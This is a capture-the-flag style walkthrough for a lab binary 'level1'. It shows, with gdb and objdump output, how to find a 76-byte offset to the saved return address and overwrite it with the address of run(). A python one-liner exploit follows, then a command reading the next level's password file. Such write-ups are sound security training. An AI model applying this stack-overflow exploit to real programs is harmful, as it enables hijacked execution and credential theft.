

### 1. Find the adress of run()

```bash
$ objdump -t ./level1
...
08048444 g     F .text  0000003c              run
...
```

### 2. Find the offset of saved eip in main

To find the offset we can use a [Pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/).

```bash
$ gdb ./level1
(gdb) r
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()
```



We have an offset of 76 bytes. So the payload is 76 random bytes and the address of run() (0x08048444).

```bash
$ (python -c 'print "a" * 76 + "\x44\x84\x04\x08"';cat) | ./level1
cat /home/user/level2/.pass
```
